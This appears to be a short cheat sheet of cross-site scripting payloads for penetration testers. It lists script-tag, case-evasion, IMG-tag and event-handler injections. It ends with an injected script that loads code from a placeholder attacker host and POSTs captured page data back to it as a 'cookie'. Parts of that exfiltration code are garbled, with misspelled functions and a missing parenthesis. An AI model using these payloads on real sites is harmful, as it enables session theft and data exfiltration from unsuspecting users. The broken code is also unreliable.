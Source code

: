# Examples

This is a good list:

[https://www.linkedin.com/pulse/20140812222156-79939846-xss-vectors-you-may-need-as-a-pen-tester](https://www.linkedin.com/pulse/20140812222156-79939846-xss-vectors-you-may-need-as-a-pen-tester)

## No security

`<script>alert(1)</script>`

Imagine that the server sanitizes `<script>`. To bypass that we can use:  
`<SCrIpt>alert(2)</ScRiPt>`  
`<script type=text/javascript>alert(2)</script>`

### Using the IMG-tag

```
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG onmouseover="alert('xxs')">
```

### Onmouseover

```
<a onmouseover="alert(2)">d</a>
```

### Evasion Attempts

```
<Img src="x/><script>eval(String.fromCharCode(document.write('<script src="http://ATTACKINGIP/test.js"></script>');))</script>">


test.js
var req1 = new XMLHttpRequest();
req1.open('GET','http://localhost:8000/vasrsasd',false);
req1.send();
var response = req1.responseText;
var req2 = new XMLHttpRequest();
var params = "cookie=" + encdoeURIComponenet(response);
req2.open('POST', 'http://ATTACKINGIP:8000/pwn', true;
req2.setRequestHeader('Content-Type', 'application/x-ww-form-urlencoded');
req2.send(params);


should create url encodeded data file
```



